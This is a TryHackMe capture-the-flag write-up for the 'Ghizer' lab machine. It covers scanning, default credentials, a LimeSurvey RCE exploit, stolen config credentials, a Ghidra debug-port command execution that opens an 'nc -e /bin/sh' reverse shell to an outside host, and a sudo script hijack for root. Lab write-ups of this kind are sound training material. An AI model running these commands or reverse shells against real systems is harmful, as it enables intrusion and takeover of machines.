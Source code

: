 > Ghizer | Web Apps

**export IP=10.10.33.183**

# Nmap

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
21/tcp  open  ftp?     syn-ack ttl 63
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
```

# Gobuster

sudo gobuster -u http://$IP -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -t 20 -x php,txt,config,bak -o gobuster/initial

```
/admin (Status: 301) => Oooh! Login page
/application (Status: 301)
/assets (Status: 301)
/docs (Status: 301)
/framework (Status: 301)
/index.php (Status: 200)
/installer (Status: 301)
/locale (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/tests (Status: 301)
/themes (Status: 301)
/tmp (Status: 301)
/upload (Status: 301)
```

Let's try default credentials for LimeSurvey `admin`:`password`

# Metasploit

```
> use auxiliary/scanner/http/limesurvey_zip_traversals
> set RHOSTS $IP
> exploit
```

And we can read the /etc/passwd file. We found a vulnerability . LimeSurvey is of version 3.15.9.

searchsploit LimeSurvey

```
LimeSurvey < 3.16 - Remote Code Execution                            | php/webapps/46634.py
```

Runnig the exploit we are in as www-data.

`python exploit.py http://$IP admin password`

And we can search for config.php 

locate config.php

/var/www/html/limesurvey/application/config/config.php

```
'username' => 'Anny',
'password' => 'P4$W0RD!!#S3CUr3!',
```

And now enumerating port 443, let's access it using https://$IP:443 . And we have login button at `http://$IP/?devtools`

We have ghidra 9.0 in veronica's home directory.

netstat -ntlp

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:18001         0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::37795                :::*                    LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::18002                :::*                    LISTEN      -               
tcp6       0      0 :::45975                :::*                    LISTEN      -               
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
tcp6       0      0 :::443                  :::*                    LISTEN      -               
tcp6       0      0 :::443                  :::*                    LISTEN      -               
tcp6       0      0 :::443                  :::*                    LISTEN      -               
```

Looks like Gidra is communicating using port 18001. And a vulnerability in ghidra 9.0.

# Remote Session

```
jdb -attach 127.0.0.1:18001
stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
print new java.lang.Runtime().exec("nc 10.8.107.21 1337 -e /bin/sh")
```

We are in as veronica.

# user.txt

```
THM{EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD3}
```

# Privilege Escalation

sudo -l

```
User veronica may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (root : root) NOPASSWD: /usr/bin/python3.5 /home/veronica/base.py
```

We have base.py but we can't edit it but we can remove it .Let's try creating a new one.

```
echo 'import pty; pty.spawn("/bin/sh")' > /home/veronica/base.py
sudo /usr/bin/python3.5 /home/veronica/base.py
```

We are root!!

# root.txt

```
THM{02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D9}
```